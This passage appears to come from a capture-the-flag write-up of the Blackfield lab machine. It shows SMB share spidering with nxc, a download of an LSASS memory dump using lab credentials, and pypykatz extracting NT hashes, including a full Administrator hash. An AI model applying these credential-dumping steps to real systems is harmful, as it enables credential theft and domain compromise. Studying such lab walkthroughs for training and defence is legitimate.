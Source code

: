 It seems that among the files there is a **LSASS memory dump** which we can download locally:

```bash
# read output file
$ jq . /tmp/nxc_spider_plus/10.10.10.192.json
<SNIP>
    },
    "memory_analysis/lsass.zip": {
      "atime_epoch": "2020-05-28 21:25:08",
      "ctime_epoch": "2020-05-28 21:25:01",
      "mtime_epoch": "2020-05-28 21:29:24",
      "size": "39.99 MB"
    },
<SNIP>

# download file
$ nxc smb 10.10.10.192 -u audit2020 -p 'p@ssw0rd!' --share forensic --get-file memory_analysis/lsass.zip lsass.zip
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:p@ssw0rd!
SMB         10.10.10.192    445    DC01             [*] Copying "memory_analysis/lsass.zip" to "lsass.zip"
SMB         10.10.10.192    445    DC01             [+] File "memory_analysis/lsass.zip" was downloaded to "lsass.zip"
```

We can use [`pypykatz`](https://github.com/skelsec/pypykatz) to extract the data from the LSASS file:

```bash
# unzip the lsass dump
$ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP

# extract the data
$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
<SNIP>
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 96<REDACTED>0d
<SNIP>
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
<SNIP>
```

